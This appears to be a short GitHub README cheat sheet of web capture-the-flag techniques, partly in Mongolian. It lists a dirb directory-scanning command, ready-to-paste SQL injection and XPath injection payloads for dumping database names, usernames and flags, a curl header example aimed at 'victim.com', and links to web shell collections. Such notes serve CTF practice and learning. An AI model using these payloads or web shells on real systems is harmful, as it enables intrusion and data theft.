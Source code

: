 Directory traversal attack
-

* [`dirb`](https://tools.kali.org/web-applications/dirb)

	* `dirb <target-address>`


JavaScript
-

* `shell`
	
	node command line шеллийг ашиглаж болно.


SQLi
-

* `UNION`
	
```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

XPath Injection
-

```
`'or string-length(name(.))=5 or '!'='`
`' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='`
`'or contains(.,'admin') or'`
`"amine' or (substring((//flag)[1], 1, 1)) = 'a`
```

Curl
-

* `Playing with header`
	
	* `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
	
Web shells
-

* `Shells`
	
	* [dict.txt](https://github.com/ByamB4/Capture-The-Flag-Tools/blob/master/Web/shells/list.txt)
	* [\*.php](https://github.com/ByamB4/Capture-The-Flag-Tools/tree/master/Web/shells/code)
